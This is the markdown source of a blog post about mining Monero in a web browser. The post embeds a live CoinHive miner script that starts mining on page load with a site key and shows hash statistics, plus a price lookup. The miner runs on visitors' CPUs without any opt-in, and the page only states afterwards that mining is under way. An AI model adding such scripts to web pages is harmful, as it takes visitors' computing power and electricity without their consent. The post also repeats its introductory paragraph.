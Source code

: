 ```yaml
---
layout: post
title: Mining crypto using your web browser?
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? How can it be utulized?

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>
**The page you are on is currently utilizing your CPU to mine Monero.**

The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

<br />
<br />
<p>Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability. It was created in April of 2014 and has since seen a huge uptick in adoption. 
				The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>
				
### Miner Stats since visiting this page
<div>
#Hashes per second: <p id="hashesPerSecond"></p>
**Total Hashes:** <p id="totalHashes"></p>
##Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 